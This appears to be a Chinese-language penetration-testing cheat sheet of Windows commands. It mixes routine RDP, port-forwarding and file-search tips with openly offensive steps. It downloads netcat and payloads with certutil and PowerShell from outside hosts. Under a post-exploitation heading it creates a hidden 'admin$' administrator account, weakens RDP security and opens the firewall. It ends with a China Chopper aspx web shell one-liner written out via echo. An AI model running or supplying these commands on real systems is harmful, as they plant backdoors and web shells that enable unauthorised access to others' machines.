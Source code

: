 

## 下载文件

certutil -urlcache -split -f http://11.1.63.39/nc.exe

powershell
```ts
$client = new-object System.Net.WebClient
$client.DownloadFile(‘http://payloads.online/file.tar.gz', ‘E:\file.tar.gz’)
```
### certuil
```
certuil -encode in out # 转base64
certuil -decode out in # 还原
```
## 渗透后置操作

```bat
net user admin$ tuser321 /add
net localgroup administrators admin$ /add
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

:: 开启远程
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
echo 远程桌面端口 port number is 
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

gpupdate /force
# 查看开了哪些端口
netstat -aon

:: 关闭远程
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /D 0 /f
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 0
```

## FAQ
###  终端服务器超过最大允许连接数
远程桌面界面，在地址栏上 1.1.58.58:65535 /admin

或cmd `mstsc /admin /v:1.1.58.58:65535` ,  此方式不能操作剪贴版
### cmd下信息乱码

```shell
# set utf8
chcp 65001
```

### 终端操作
```
# 查询
qwinsta 查询连接
query session
query user
# kill
log off <id>
tsdiscon rdp-tcp#946
rwinsta <id>关闭连接
```

## TODO
1.TODO: 终端服务器超过最大允许连接数 修改
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 10 /f

# https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.TerminalServer::TS_MAX_CON_POLICY
tsadmin 可看连接
```
## 查找文件 
win7以上
```ts
find F:\Downloads #查找目录下所有文件　
find F:\Downloads | findstr Apifox      # 过滤Apifox
```
xp/2003

dir \calendar /s
dir D:\ /s | findstr /i txt >c:\tmp.txt


## 端口转发
win7以上
```bash
netsh interface portproxy add v4tov4 listenport=4546 connectaddress=1.1.58.59 connectport=1521
netsh interface portproxy delete v4tov4 listenport=4546 listenaddress=1.1.58.58
netsh interface portproxy show all
netsh interface portproxy reset
```


## 注册表添加删除程序
x64
HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\

## echo 相关

转义用^

aspx
```
echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["chopper"],"unsafe");%^>  >1
```

